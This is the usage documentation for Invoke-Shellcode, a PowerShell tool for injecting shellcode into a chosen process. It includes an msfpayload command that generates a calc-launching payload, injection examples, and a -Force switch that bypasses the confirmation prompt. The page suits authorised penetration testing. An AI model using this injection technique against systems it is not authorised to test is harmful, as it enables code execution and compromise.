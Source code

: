 # Invoke-Shellcode

## SYNOPSIS
Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.

Powerscript Function: Invoke-Shellcode  
Author: Matthew Graeber (@mattifestation)  
License: BSD 3-Clause  
Required Dependencies: None  
Optional Dependencies: None

## SYNTAX

```
Invoke-Shellcode [-ProcessID <UInt16>] [-Shellcode <Byte[]>] [-Force]
```

## DESCRIPTION
Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre

PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX.
To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):

msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/\[";\]//g;s/\\\\/,0/g' | tr -d '\n' | cut -c2-

Make sure to specify 'thread' for your exit process.
Also, don't bother encoding your shellcode.
It's entirely unnecessary.

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Invoke-Shellcode -ProcessId 4274
```

Description
-----------
Inject shellcode into process ID 4274.

### -------------------------- EXAMPLE 2 --------------------------
```
Invoke-Shellcode
```

Description
-----------
Inject shellcode into the running instance of PowerShell.

### -------------------------- EXAMPLE 3 --------------------------
```
Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)
```

Description
-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs.
64-bit!

## PARAMETERS

### -ProcessID
Process ID of the process you want to inject shellcode into.

```yaml
Type: UInt16
Parameter Sets: (All)
Aliases: 

Required: False
Position: Named
Default value: 0
Accept pipeline input: False
Accept wildcard characters: False
```

### -Shellcode
Specifies an optional shellcode passed in as a byte array

```yaml
Type: Byte[]
Parameter Sets: (All)
Aliases: 

Required: False
Position: Named
Default value: None
Accept pipeline input: False
Accept wildcard characters: False
```

### -Force
Injects shellcode without prompting for confirmation.
By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: 

Required: False
Position: Named
Default value: False
Accept pipeline input: False
Accept wildcard characters: False
```

## INPUTS

## OUTPUTS

## NOTES

## RELATED LINKS

